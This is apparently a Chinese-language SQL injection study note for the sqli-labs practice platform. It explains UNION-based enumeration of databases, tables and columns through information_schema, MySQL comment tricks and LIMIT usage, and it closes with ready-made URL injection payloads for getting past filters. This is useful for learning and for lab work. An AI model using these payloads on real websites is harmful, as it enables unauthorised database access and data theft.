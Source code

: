 # 特别感谢：
- sqli-labs平台：[https://github.com/Audi-1/sqli-labs](https://github.com/Audi-1/sqli-labs)
- lcamry牛的blog：[http://www.cnblogs.com/lcamry](http://www.cnblogs.com/lcamry)

# MySQL注入

### 基本语法

- 介绍几个常用函数：

  1. version()——MySQL 版本
  2. user()——数据库用户名
  3. database()——数据库名---过滤information等敏感词查数据库
  4. @@datadir——数据库路径
  5. @@version\_compile_os——操作系统版本

- 注入一般的流程（联合查询）：

  1. 猜数据库：
     UNION SELECT schema\_name FROM information\_schema.schemata;
  2. 猜某库的数据表：
     UNION SELECT table\_name FROM information\_schema.tables WHERE table\_schema='xxx';
  3. 猜某表的所有列：
     UNION SELECT column\_name FROM information\_schema.columns WHERE table\_name='xxx';
  4. 获取某列的内容：
     UNION SELECT * FROM ;
  5. 注：union两侧的select所提取的数据字段必须相同，即column数目相同，否则会报错：The used SELECT statements have a different number of columns ；

- 字符串连接函数：
  1. concat(str1,str2,...)——没有分隔符地连接字符串；   CONCAT(id, '，', name)在参数`中间`设置分隔符；
  2. concat\_ws(separator,str1,str2,...)——含有分隔符地连接字符串；CONCAT\_WS('\_',id,name)在参数`最前面`设置分隔符；
  3. group\_concat(str1,str2,...)——连接一个组的所有字符串，默认以逗号分隔每一条数据；GROUP\_CONCAT(username,'-',password)在参数`中间`设置分隔符；
  4. 注：1,2用在查询`单一`数据（需指定where来详细查询）；
     3用在查询`全部`库，表，列数据，用的较多；

- mysql的注释符号：
  1. `--`，两个横杠，有时候需要最后加上+号用来连接语句，这个在浏览器不需要编码；
  2. `#`，井号，这个在浏览器url中需要编码成%23，必须；
  3. `/**/`，注释一段，这里在注入中一般碰到的较少，有也是单纯的一半，用来闭合最后一段，CTF有坑；

- `limit`用法：
  1. limit x,y ；从第x+1个数据开始取，取y个数据；
  2. limit x offset y ；从第y+1个数据开始取，去x个数据；
  3. 报错注入有时限制显示字符数，利用第二个来搞即可；

- 过滤infomation_schema、ORDER BY...（补天沙龙成都站http://bbs.sssie.com/thread-2006-1-1.html）：
  1. ?id=-1' UNION SELECT database();-- //xxx显示当前数据库
  2. ?id=-1' UNION SELECT 1 FROM xxx.flag;-- //如果存在flag表则返回1，不存在返回空白；以此来猜测表名；
  3. ?id=-1' UNION SELECT * FROM xxx.flag;-- //获取内容；
